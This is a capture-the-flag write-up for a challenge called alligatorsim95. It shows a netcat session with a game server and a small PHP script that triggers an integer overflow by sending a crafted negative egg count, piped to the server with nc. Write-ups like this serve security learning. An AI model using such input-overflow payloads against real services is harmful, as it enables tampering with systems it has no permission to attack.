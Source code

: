 # Exploitation 50 alligatorsim95

We had to `nc` to the server which gave us some nice ASCII art:

    nc 4.31.182.242 9000
    
                  .-._   _ _ _ _ _ _ _ _
       .-''-.__.-'00  '-' ' ' ' ' ' ' ' '-.
      '.___ '    .   .--_'-' '-' '-' _'-' '._
       V: V 'vv-'   '_   '.       .'  _..' '.'.
         '=.____.=_.--'   :_.__.__:_   '.   : :
                 (((____.-'        '-.  /   : :
       snd                         (((-' .' /
                                 _____..'  .'
                                '-._____.-'
      -> welcome to alligatorsim95!
    
    -> u r... AN ALLIGATOR!!
    .. simulating alligator lifecycle ..
    .. simulating alligator throwing physics..
    -> you got 1337 eggz in ur nest, how many you gonna lay alligator??

We could increase the eggs in our nest by passing a value. I then thought maybe we could pass a negative value. It turned out to be possible: the eggs in the nest decreased. I then tried a huge negative number: `-10000000000`. I discovered there was an integer overflow. I quickly wrote a simple php script:

    <?php
    
    echo "-" . pow(2, 32) . "\n" .
         "-1338\n";

Pwning with a simple command `php exp_eggs.php | nc 4.31.182.242 9000`:

![php pwning](files/overflow.png?raw=true)